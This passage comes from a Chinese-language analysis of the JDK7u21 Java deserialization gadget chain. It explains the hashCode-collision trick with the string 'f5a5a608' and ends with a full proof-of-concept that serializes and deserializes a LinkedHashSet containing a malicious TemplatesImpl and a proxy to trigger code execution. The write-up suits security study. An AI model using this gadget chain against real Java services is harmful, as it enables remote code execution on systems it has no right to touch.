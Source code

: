 for 循环内调用了 `memberValueHashCode()` 函数，其精简代码如下

```java
private static int memberValueHashCode(Object var0) {
        Class var1 = var0.getClass();
        if (!var1.isArray()) { // 匹配到该条件
            return var0.hashCode();
        } else if (var1 == byte[].class) {
            ....
        } else {
            ...
        }
}
```

如果 Entry 的 value 的 Class 不为 Array，则 `memberValueHashCode()` 函数返回 `value.hashCode()`，在这里相当于

```
127 * key.hashCode() ^ value.hashCode();
```

为了让最后返回的  `result` 和 `value.hashCode()` 相同，这就要求

- `memberValues` 仅有一个 entry，否则 for 循环内每次计算的结果会累加

- `key.hashCode()` 的值为0，从而 127 * key.hashCode() = 0，0 和 任何数异或还是原值
- value 和 之前添加到 hashset 的对象相同， (利用代码中该值为包含恶意代码的 templates 对象)

前面提到字符串 `f5a5a608` 的 hashCode 为 0，所以这里只要让 `AnnotationInvocationHandler` 的 `memberValues` 内只放一个 key 为字符串 `f5a5a608`，value 为包含恶意代码的 `templates` 对象即可

到这里，就可以写出完整的利用代码

```java
    @Test
    public void testPoc() throws Exception {
        Map map = new HashMap();
        String magicStr = "f5a5a608";
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, map);
        setFieldValue(invocationHandler, "type", Templates.class);
        // value 先放入任意值，让 HashSet.add(proxy) 成功
        map.put(magicStr, "foo");
        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        Templates evilTemplates = getEvilTemplates();
        HashSet target = new LinkedHashSet();
        target.add(evilTemplates);
        target.add(proxy);
        // 放入实际的 value
        map.put(magicStr, evilTemplates);

        String filename = "/tmp/jdk7u21";
        // 序列化
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(filename));
        oos.writeObject(target);
        // 反序列化, boom
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
}
```
